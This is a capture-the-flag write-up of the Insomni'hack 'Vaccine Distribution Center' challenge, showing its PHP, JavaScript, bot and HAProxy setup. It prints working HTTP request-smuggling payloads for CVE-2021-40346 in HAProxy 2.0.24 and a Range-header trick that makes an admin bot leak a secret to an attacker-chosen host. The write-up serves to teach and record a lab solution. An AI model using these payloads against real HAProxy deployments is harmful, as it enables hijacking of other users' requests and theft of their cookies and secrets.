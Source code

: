 # Vaccine Distribution Center

Let's take a look at the source code. The task consists of 3 part:
Backend, Frontend and VIP.

`Backend` is a simple php-nginx container with the actual challenge code.

`Frontend` is HAProxy container. This is the user-facing service that redirects HTTP requests to `Backend`

`VIP` is the bot that periodically visits the main page of the challenge with admin's credentials set.

To better understand the architecture, take a look at the diagram:
 
 ![Diagram](diagram.png)


Let's take a closer look at each of the parts: 

#### Backend

index.php
```html
<script>
        var identity = '<?php print(preg_replace("/[^a-z0-9_]+/i","",$_SERVER['HTTP_X_WHOAMI']));?>';
        <?php
                if($_COOKIE['VIP_CODE'] === getenv("VIP_CODE")) {
                        print("var isvip = true;");
                        print("var vaccine = '" . getenv("FLAG")."';");
                }
                else {
                        print("var isvip = false;");
                        print("var vaccine = 'none';");
                }
        ?>
</script>
...
<script>
        function getScript() {
                var s = document.createElement("script");
                s.setAttribute("src","./script.js");
                document.body.appendChild(s);
        }
        setTimeout("getScript()",10000);
</script>
```

script.js
```js
if (!isvip || Date.now() < new Date("2022-06-06")) {
        //only VIPs get vaccine, and only when we decide
        document.location = 'https://insomnihack.ch/';
}


function getVaccine() {
fetch('http://'+identity+'/?vaccine='+vaccine)
        .then((response) => {
        console.log(response.json());
        });
}

//OK, it's time to give you the vaccine!
setTimeout("getVaccine()",1000);

```

The VIP-bot visits the webpage with the correct cookies set, so `isvip` variable will be set
and `vaccine` variable will be assigned with the value of the flag.

After 10 seconds the script will be loaded that will send the flag to the server specified in the `identity` variable (which takes its value from `X-Whoami` HTTP header),
if the condition:
```
if (!isvip || Date.now() < new Date("2022-06-06")) {
```
is met.

This leads us to two conclusions:
1. We need to force VIP-bot to send the correct value of `X-Whoami` header
2. We need to bypass the JS check (or wait until 2022-06-06, but it's long after the CTF ends :( )


#### VIP

```python
#!/usr/bin/python3
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.chrome.options import Options
import os
import time
import traceback
chrome_options = Options()
chrome_options.headless = True
chrome_options.add_argument('--no-sandbox')


while True:
    try:
        driver = webdriver.Chrome("/chromedriver", options=chrome_options)
        driver.set_page_load_timeout(30)
        driver.get("http://frontend/")
        time.sleep(1)
        driver.add_cookie({"name": "VIP_CODE", "value":os.environ.get("VIP_CODE"),"httpOnly": True})
        driver.get("http://frontend/")
        time.sleep(30)
        driver.close()
    except:
        traceback.print_exc()
```

This looks standard for a client-side web challenge.
However, we don't control the URL the bot visits (it only visits the main page),
so it suggests looking for Cache Poisoning or Request Smuggling vulnerabilities.

#### Backend

This is the HAProxy container that redirects the requests to the `Frontend`.
Two things are worth noticing:

1. The version is 2.0.24, which is not the latest one.
2. A non-standard `http-reuse always` configuration is used, meaning that the connection between `Backend` and `Frontend` is kept open between requests.

### Solution

#### Injecting X-Whoami header
 
With a little bit of googling we find out that this version of HAProxy is vulnerable to request smuggling with CVE-2021-40346.
The vulnerability is described in detail at [https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)

By sending the following payload:
```
POST /index.html HTTP/1.1
Host: example.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 42

GET / HTTP/1.1
X-Whoami: 1295505720
DUMMY:
``` 
(notice no new line at the end!)
we can make the second request to be stored in a buffer until the next request is made, effectively making it the prefix of the next request.

This means, if the VIP makes a connection and requests the main webpage with a request similar to:
```
GET / HTTP/1.1
Host: frotend
Cookie: VIP_CODE=<secret_code>

```
the actual request that will be forwarded to the backend will be:
```
GET / HTTP/1.1
X-Whoami: 1295505720
DUMMY:GET / HTTP/1.1
Host: frotend
Cookie: VIP_CODE=<secret_code>

```
which solved the first part of the challenge.

#### Bypassing the condition in script.js

After a few hours of looking for some clever JS solution it was clear to me that there is no way to bypass the date check on JS level.

However, it was possible to request only the part of the file with `Range` header (https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Range).

By sending the following header while requesting the script.js file:
```
Range: bytes=152-1023
```
we receive the file starting from position 152, so after the date check.
We can inject it in the same way as we injected `X-Whoami` header in the first part.
The payload will be:
```
POST /index.html HTTP/1.1
Host: example.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 52

GET /script.js HTTP/1.1
Range: bytes=152-1023
DUMMY:
```

#### Getting the flag
Now we need to keep sending payloads for injecting `X-Whoami` and `Range` header and hope to win the following race:
1. We poison the backend with first payload
2. The VIP-bot visits the webpage and loads `index.php` with `X-Whoami` header provided by us
3. The VIP-bot waits 10 seconds before loading `script.js`
4. During those 10 seconds we inject the second payload.
5. The VIP-bot loads the script with injected `Range` header, bypasing the date check at the beginning of the file.

If we did the following on the public instance it would leak our exploit to the other teams, so it was helpful to ask the challenge author to spawn the private instance for us.

After a couple of minutes needed to win a race we can read the flag from our server's HTTP logs:
```
INS{5muggl1ng_the_r4nge!}
```
